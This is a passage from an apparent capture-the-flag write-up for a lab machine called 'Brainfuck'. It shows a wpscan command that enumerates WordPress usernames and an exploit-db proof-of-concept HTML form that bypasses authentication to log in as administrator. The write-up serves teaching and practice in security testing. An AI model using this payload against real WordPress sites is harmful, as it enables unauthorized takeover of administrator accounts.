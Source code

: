 According to the [documentation](https://www.exploit-db.com/exploits/41006), this vulnerability allows you to bypass authentication by logging in as anyone without knowing the password. You do however need a valid username for the attack to work. Therefore, let’s use wpscan to enumerate usernames.

```text
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```

* — enumerate u: enumerates usernames.

We get back the following result.

![](../images/max/693/1*oFCbC1_fHjFvRZ4YJzv_uw.png)

Both “_admin_” and “_administrator_” are valid usernames. Now that we have a valid username, let’s attempt to exploit the vulnerability.

## Gaining an Initial Foothold <a id="eb5f"></a>

Copy the POC code from the [vulnerability entry on searchsploit](https://www.exploit-db.com/exploits/41006) and save it in the file priv-esc.html. Change the URL to the name of the machine.

```text
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Get the location of the exploit file on the attack machine.

```text
pwd
```

Run it in the browser and login as administrator.

![](../images/max/718/1*lnJ63NNJB861XeZAE00F4A.png)
